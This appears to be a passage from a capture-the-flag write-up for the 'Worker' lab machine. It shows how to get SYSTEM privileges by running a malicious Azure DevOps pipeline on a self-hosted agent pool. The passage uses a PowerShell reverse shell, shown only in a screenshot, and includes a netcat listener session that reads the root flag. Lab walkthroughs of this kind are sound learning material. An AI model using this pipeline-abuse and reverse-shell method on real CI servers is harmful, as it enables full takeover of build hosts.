

Now I can create a new Starter pipeline that points to this 'Setup' pool. I will also try to read the root flag.

Save and Run.

Make sure to create a new branch and start a pull request. then name your new branch anything you like. Hit Save and run


The pipeline was successfully deployed. Click on "Run a Multi-Line Script" and check the output of the script.


Notice that it does print the root flag at the bottom in the above screenshot. and the script ran as a `nt authority\system`.

Let's drop the Powershell reverse shell code 



Run the netcat listener and deploy the pipeline again.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Worker.htb]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.203] 51453
id
uid=18(SYSTEM) gid=18 groups=18
PS W:\agents\agent11\_work\10\s> whoami
nt authority\system
PS W:\agents\agent11\_work\10\s> type C:\Users\Administrator\Desktop\root.txt
587b8b77ebee60b2f687128653bcc94b
PS W:\agents\agent11\_work\10\s> 
```

Get your root flag.